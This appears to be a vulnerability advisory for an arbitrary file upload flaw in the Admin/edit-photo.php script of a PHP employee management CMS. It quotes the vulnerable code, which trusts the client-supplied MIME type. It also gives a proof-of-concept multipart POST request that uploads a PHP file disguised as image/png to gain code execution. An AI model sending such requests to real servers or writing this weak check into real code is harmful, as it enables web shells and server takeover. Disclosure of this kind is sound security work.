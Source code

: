 ### Vulnerability file address

In line 18 of `Admin/edit-photo.php`, `$image_name= addslashes($_FILES['avatar']['name']);`, the file extension is not whitelisted. Following up to line 20, `move_uploaded_file($_FILES["avatar"]["tmp_name"],"../uploadImage/" . $_FILES["avatar"]["name"]);`, the file is uploaded to the `uploadImage/` directory.

```php
<?php
include('../inc/topbar.php');
if(empty($_SESSION['admin-username']))
    {
      header("Location: login.php");
    }

if(isset($_POST["btnsave"]))
{
$file_type = $_FILES['avatar']['type']; //returns the mimetype
$allowed = array("image/jpeg", "image/gif","image/jpeg", "image/webp","image/png");
if(!in_array($file_type, $allowed)) {
$error = 'Only jpeg,Webp, gif, and png files are allowed.';
 // exit();

}else{
$image= addslashes(file_get_contents($_FILES['avatar']['tmp_name']));
$image_name= addslashes($_FILES['avatar']['name']);
$image_size= getimagesize($_FILES['avatar']['tmp_name']);
move_uploaded_file($_FILES["avatar"]["tmp_name"],"../uploadImage/" . $_FILES["avatar"]["name"]);
$location="uploadImage/" . $_FILES["avatar"]["name"];
```

### POC

```html
POST /CMS/php/employee_akpoly/Admin/edit-photo.php HTTP/1.1
Host: 10.0.0.20:82
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------37409217622644975681930203783
Content-Length: 348
Origin: http://10.0.0.20:82
Connection: close
Referer: http://10.0.0.20:82/CMS/php/employee_akpoly/Admin/edit-photo.php
Cookie: PHPSESSID=81293i00fqra5g881e77or40t2
Upgrade-Insecure-Requests: 1

-----------------------------37409217622644975681930203783
Content-Disposition: form-data; name="avatar"; filename="1.php"
Content-Type: image/png

<?php phpinfo(); ?>

-----------------------------37409217622644975681930203783
Content-Disposition: form-data; name="btnsave"


-----------------------------37409217622644975681930203783--

```

### Attack results pictures

![image-20250128150546197](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501281505244.png)



![image-20250128150630998](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501281506036.png)



